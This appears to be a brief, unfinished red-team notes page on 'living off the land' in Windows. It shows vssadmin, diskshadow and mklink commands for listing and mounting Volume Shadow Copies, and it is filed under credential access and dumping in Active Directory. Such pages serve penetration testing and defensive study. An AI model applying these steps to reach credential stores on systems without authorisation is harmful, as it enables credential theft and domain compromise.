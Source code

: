 # Living off the Land

TODO: Provide steps to perform domain privilege escalation

## 01 - Detect

Check if there are any shadow volumes that can be re-extracted.

```
C:\> vssadmin list shadows
```

## 02 - Exploit

```
C:\> diskshadow list shadows all
```

Make a symlink to the shadow copy and access it

```
C:\> mklink.exe /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x04 - Credential Access and Dumping/Windows/Active Directory/Volume Shadow Copy/01 - Manual/Living off the Land#^c70a55|DiskShadow Method: Volume Shadow Copy]]

### Internal All The Things

- [Internal All The Things: Windows Privilege Escalation](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/)